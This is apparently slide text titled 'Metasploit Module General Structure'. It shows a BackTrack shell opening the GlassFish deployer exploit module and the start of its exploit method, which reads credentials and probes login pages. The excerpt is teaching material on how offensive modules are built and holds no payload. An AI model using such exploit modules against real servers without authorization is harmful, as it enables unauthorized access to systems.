

root@bt:~# vi /opt/metasploit/apps/pro/msf3/modules/exploits/multi/http/glassfish_deployer.rb

        def exploit
                user        = datastore['USERNAME']
                pass        = datastore['PASSWORD']
                path        = datastore['PATH']
                my_target_host = "http://#{rhost.to_s}:#{rport.to_s}/#{path.to_s}"
                success     = false
                session     = ''
                edition     = ''
                version     = ''

                #Invoke index to gather some info
                res = send_request('/common/index.jsf', 'GET')

                #If we get a bad connection, we'd rather not try
                if res.nil?
                        print_error("Unable to get a response from the server")
                        return
                end

                if res.code == 302
                        res = send_request('/login.jsf', 'GET')
                end
Metasploit Module General Structure